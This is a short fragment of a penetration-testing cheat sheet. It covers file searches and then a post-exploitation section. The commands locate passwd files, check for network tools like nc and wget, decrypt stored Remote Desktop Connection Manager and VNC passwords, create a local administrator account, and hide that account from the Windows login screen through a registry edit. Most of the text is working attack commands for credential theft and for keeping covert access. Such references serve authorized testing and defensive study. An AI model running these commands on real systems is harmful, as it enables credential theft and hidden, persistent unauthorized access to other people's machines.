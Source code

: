 ### Recursively Find Hidden Files: Windows
```powershell
dir /A:H /s "c:\program files"
```

### General File Search
```bash
# Query the local db for a quick file find. Run updatedb before executing locate.
locate passwd 

# Show which file would be executed in the current environment, depending on $PATH environment variable;
which nc wget curl php perl python netcat tftp telnet ftp

# Search for *.conf (case-insensitive) files recursively starting with /etc;
find /etc -iname *.conf
```

## Post-Exploitation & Maintaining Access
### Browsing Registry Hives

```bash
hivesh /registry/file
```
### Decrypting RDG Passwords

Remote Desktop Connection Manager passwords can be decrypted on the same computer/account they were encrypted:
```powershell
Copy-Item 'C:\Program Files (x86)\Microsoft\Remote Desktop Connection Manager\RDCMan.exe C:\temp\RDCMan.dll’
Import-Module C:\temp\RDCMan.dll
$EncryptionSettings = New-Object -TypeName RdcMan.EncryptionSettings
[RdcMan.Encryption]::DecryptString($PwdString, $EncryptionSettings)
```

### Decrypting VNC Password
```bash
wine vncpwdump.exe -k key
```

### Creating User and Adding to Local Administrators
```powershell
net user spotless spotless /add & net localgroup Administrators spotless /add
```

### Hide Newly Created Local Administrator
```bash
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\SpecialAccounts\UserList" /t REG_DWORD /v spotless /d 0 /f
```
